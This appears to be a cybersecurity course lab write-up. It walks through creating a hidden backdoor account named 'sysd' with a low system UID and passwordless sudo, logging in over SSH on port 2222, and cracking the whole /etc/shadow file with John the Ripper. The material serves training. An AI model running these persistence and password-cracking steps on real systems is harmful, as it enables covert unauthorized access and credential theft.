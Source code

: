 Week 6: Advanced Bash - Owning the System
Step 1: Shadow People

 1.  Create a secret user named sysd. Make sure this user doesn't have a home folder created:

        root:~\ $ useradd --no-create-home sysd

 2.  Give your secret user a password:
        
        root:~\ $ passwd sysd

 3.  Give your secret user a system UID < 1000:

        root:~\ $ usermod -u 37 sysd

 4.  Give your secret user the same GID:

        root:~\ $ usermod -u 37 -g 37 sysd 

 5.  Give your secret user full sudo access without the need for a password:

        root:~\ $ visudo

   #includedir /etc/sudoers.d

        sysd ALL=(ALL) NOPASSWD:ALL
        
 6.  Test that sudo access works without your password: 
        
         $ su sysd
         $ sudo -k
         $ sudo -v
         $ sudo -l


Step 2: Smooth Sailing
 1.  Edit the sshd_config file:
![](Images/john_shadow.png)


Step 3: Testing Your Configuration Update
 1.  Restart the SSH service:
   
    root:~\ $ systemctl restart sshd

 2.  Exit the root account:
  
    root:~\ $ exit
    sysadmin:~\ $ exit

 3.  SSH to the target machine using your sysd account and port 2222:

    sysadmin@UbuntuDesktop:~$ ssh sysd@192.168.6.105 -p 2222

 4.  Use sudo to switch to the root user:
    
    $ sudo su

Step 4: Crack All the Passwords
 1.  SSH back to the system using your sysd account and port 2222:

    root@scavenger-hunt:/# ssh sysd@192.168.6.105 -p 2222

 2.  Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
   
    $ sudo john /etc/shadow
    
![](Images/john_shadow.png)


